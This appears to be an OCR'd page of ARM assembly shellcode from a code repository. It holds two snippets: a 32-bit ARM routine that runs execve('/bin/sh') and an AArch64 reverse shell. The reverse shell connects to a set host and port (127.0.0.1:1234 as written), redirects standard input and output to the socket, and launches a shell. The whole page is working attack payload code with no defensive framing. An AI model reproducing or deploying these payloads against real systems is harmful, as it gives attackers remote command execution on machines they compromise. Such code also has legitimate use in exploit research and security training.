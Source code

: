 ### Execute a Shell
```arm
    @ execve("/bin/sh", 0, 0) 
    adr r0, shellcode  @ r0 = location of "/bin/shX"
    eor r1, r1, r1     @ clear register r1. R1 = 0
    eor r2, r2, r2     @ clear register r2. r2 = 0
    strb r2, [r0, #7]  @ store null-byte for AF_INET
    mov r7, #11        @ execve syscall number
    svc #1
    nop
 ```

### Reverse shell over TCP
create an outgoing connection to remote and spawn a shell accepting input onn port 1234
```arm
    .arch armv8-a

    .include "macro.inc"

    .equ PORT, 1234
    .equ HOST, 0x0100007F @ 127.0.0.1

    .global _start
    .text

_start:
    @ s = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
    mov     x8, SYS_socket
    mov     x2, IPPROTO_IP
    mov     x1, SOCK_STREAM
    mov     x0, AF_INET
    svc     0

    mov     w3, w0       @ w3 = s

    @ connect(s, &sa, sizeof(sa));
    mov     x8, SYS_connect
    mov     x2, 16
    movq    x1, ((HOST << 32) | ((((PORT & 0xFF) << 8) | (PORT >> 8)) << 16) | AF_INET)
    str     x1, [sp, -16]!
    mov     x1, sp     @ x1 = &sa 
    svc     0

    @ dup3(s, STDERR_FILENO, 0);
    @ dup3(s, STDOUT_FILENO, 0);
    @ dup3(s, STDIN_FILENO,  0);
    mov     x8, SYS_dup3
    mov     x1, STDERR_FILENO + 1
c_dup:
    mov     x2, xzr
    mov     w0, w3
    subs    x1, x1, 1
    svc     0
    bne     c_dup

    @ execve("/bin/sh", NULL, NULL);
    mov     x8, SYS_execve
    movq    x0, BINSH
    str     x0, [sp]
    mov     x0, sp
    svc     0
```
